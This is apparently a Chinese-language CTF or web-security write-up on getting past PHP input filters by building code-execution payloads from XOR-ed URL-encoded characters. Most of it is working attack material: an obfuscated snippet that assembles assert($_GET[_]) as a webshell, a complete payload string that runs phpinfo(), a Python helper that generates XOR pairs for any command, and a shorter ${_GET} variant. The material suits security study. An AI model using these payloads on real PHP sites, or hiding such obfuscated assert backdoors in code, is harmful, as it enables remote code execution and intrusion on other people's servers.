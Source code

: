 > 
一次代码执行只能得到我们想要执行语句的字符串，并不能执行语句，所以需要执行两次代码进行构造<br/> 使用脚本对每个字母进行转换，然后拼接


```
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');
//$_='assert';
$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');
//$__='_GET';
$___=$$__;
//$___='$_GET';
$_($___[_]);
//assert($_GET[_]);

```

> 
Payload：`$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&amp;_=phpinfo();`


> 
经本地测试，发现这种方法可以在php5以及php7.0.9版本种使用，因为assert()的问题，并不是异或不能使用<br/> 其次，PHP5低版本有些可能因为magic_quotes_gpc开启的关系导致无法利用


> 
当过滤字符的范围没有那么大，或者只是过滤关键字的时候可以使用如下脚本


```
# -*- coding: utf-8 -*-
import string

char = string.printable
cmd = 'phpinfo'
tmp1,tmp2 = '',''
for res in cmd:
    for i in char:
        for j in char:
            if(ord(i)^ord(j) == ord(res)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print("('{}'^'{}')".format(tmp1,tmp2))

```

> 
找到一个大师傅的方法


```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&amp;%ff=phpinfo
//${_GET}{%ff}();&amp;%ff=phpinfo

```
